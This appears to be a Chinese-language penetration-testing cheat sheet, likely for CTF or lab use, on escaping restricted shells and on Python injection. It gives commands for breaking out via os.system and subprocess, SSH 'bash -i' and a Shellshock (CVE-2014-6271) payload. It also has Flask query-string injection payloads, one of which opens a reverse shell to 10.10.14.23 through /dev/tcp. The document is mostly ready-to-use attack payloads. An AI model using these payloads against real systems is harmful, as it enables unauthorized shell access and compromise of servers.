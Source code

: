 
# 受限 shell 逃逸  (Restricted Shell Bypass)
https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf
**Check for operators  ( > , >> , < , | ) .**
```shell
echo 123 > 123
```

**Check for available programming language** 
```python
import re
```

**Check sudo -l**
```bash
sudo -l
```

**Check env.**
```bash
echo $SHELL
echo $0 (当前文件名,路径)
ls $PATH
```

#### 0x01 Python :
```python
如果使用py写的脚本 ，那就有可能包含这两个模块 ，可以看一下这两个模块的命令是怎么执行的
import os
import subprocess
```

```python
subprocess.run()
subprocess.call()
subprocess.popen()
os.system()
os.popen()
```

```shell
ls system("whoami")
ls run("whoami")
```

**Bypass**
```shell
ls os.system("/bin/bash")
```

#### 0x02 ssh  / EXPLOITS
```
ssh root@192.168.55.17 'bash -i'
```
**OpenSSH 5.9p1 ： shellshock (CVE-2014-6271)**
```shell
sudo ssh -i ./noob noob@192.168.55.20 -o PubkeyAcceptedKeyTypes=ssh-rsa,ssh-dss "() { :;}; whoami"
```


# Python 本地 POC 绕过注入点
**Flask 框架**
```
query=test
query=test' (加单引号报错 或无回显)
query=test' ' (闭合后又重新回显 证明中间可以被插入代码)
query=test'%2b __import__('os').popen('id').read()+%2b'      (%2b为 + )
query=test'%2b __import__('os').popen('bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.23/2233+0>%261"').read()+%2b'
(Rev Shell Payload)
```

